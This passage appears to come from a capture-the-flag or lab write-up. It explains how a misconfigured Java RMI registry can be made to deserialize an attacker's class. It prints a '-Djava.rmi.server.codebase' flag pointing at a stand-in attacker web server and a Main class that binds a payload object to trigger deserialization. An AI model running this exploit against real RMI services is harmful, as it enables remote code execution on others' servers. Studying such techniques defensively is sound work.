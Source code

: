 Searching for the Oracle documentation we can find a feature that allows a RmiRegistry to dynamically load new classes if a server cannot resolve a class he can ask a web server its implementation, exactly what we needed!

If the RmiRegistry security policies are not configured correctly (ie. they allow all, and the `java.rmi.server.useCodebaseOnly` property is set to false) it is the __client__ who can specify an http codebase for the server to use, by means of the `java.rmi.server.codebase` flag.

```
-Djava.rmi.server.codebase=http://attacker.webserver/folder
```

Now that the server has a way to access the compiled binary of our exploit class, and its `readObject` method, the only thing we need to do to cause RMI to deserialize our exploit is just attempting to bind our exploit class as a new service on the RMI registry.

```java
register.bind("New service", exploit_class);
```

Note that the binding of new services from the client is not allowed but the object will be de-serialised __before__ that check is made by the system!

### The exploit

*Console command*
```
java -Djava.rmi.server.codebase=http://attacker.webserver/folder Main
```

*Main class*
```java
public static void main(String args[]) {

  AverageService service = null;
  Registry reg1 = null;
  Remote p = new Payload();

  String host = args[0];
  int port = Integer.parseInt(args[1]);

  System.out.println("Searching registry at "+host+":"+port);

  try {
      reg1 = LocateRegistry.getRegistry(host,port);
  } catch (RemoteException e) {
      System.out.println("No registry   found!\nAborting...");
      e.printStackTrace();
      return;
  } finally {
      System.out.println("Registry found!");
  }

  System.out.println("Starting exploit...");
  try {
      reg1.bind("new service", p);
  } catch (RemoteException | AlreadyBoundException e) {
      System.out.println(e.getMessage());
  }
}
```

